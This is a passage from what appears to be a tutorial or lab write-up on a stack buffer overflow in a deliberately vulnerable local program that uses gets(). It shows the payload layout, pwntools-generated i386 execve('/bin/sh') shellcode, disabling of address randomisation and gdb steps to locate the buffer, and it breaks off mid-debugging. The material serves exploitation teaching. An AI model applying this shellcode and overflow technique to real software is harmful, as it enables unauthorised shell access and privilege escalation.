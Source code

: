 To avoid size constraint I'll place the effective code just after  the overwritten ``eip``,
this means that the first 44 bytes will be padding;

```text
[          padding             ][addr shellcode][ shellcode ]
'-------- 44 bytes  -----------'          |             /'\
                                          '--------------'
```

To generate our shellcode I use another tool from pwntools: ``shellcraft``; this oneliner
creates a shellcode capable to instantiate a shell

```text
$ shellcraft i386.linux.sh --format asm
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

later will use the ``--format raw`` to obtain the shellcode as raw bytes.

What is missing is the knowledge of the address where the shellcode will be at runtime, but this
can be calculated knowing the address of ``name``. This address can be obtained
attaching ``gdb`` to our process when it's waiting: launch it from one terminal

```text
$ setarch i386 --addr-no-randomize simplest_excalation
What's your name?
```

and use ``gdb``

```text
$ gdb -p `pidof simplest_excalation`
 ...
[#0] Id 1, Name: "simplest_excala", stopped, reason: STOPPED
───────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7fd4059 → Name: __kernel_vsyscall()
[#1] 0xf7e73497 → Name: read()
[#2] 0xf7e003a8 → Name: _IO_file_underflow()
[#3] 0xf7e014bb → Name: _IO_default_uflow()
[#4] 0xf7df46e9 → Name: gets()
[#5] 0x80491b4 → Name: greetings()
[#6] 0x8049205 → Name: main(argc=0x1, argv=0xffffcc64, envp=0xffffcc6c)
────────────────────────────────────────────────────────────────────────────────────────
0xf7fd4059 in __kernel_vsyscall ()
gef➤  frame 5
#5  0x080491b4 in greetings () at public/code/simplest_excalation.c:11
11          gets(name);
gef➤  x/a name
```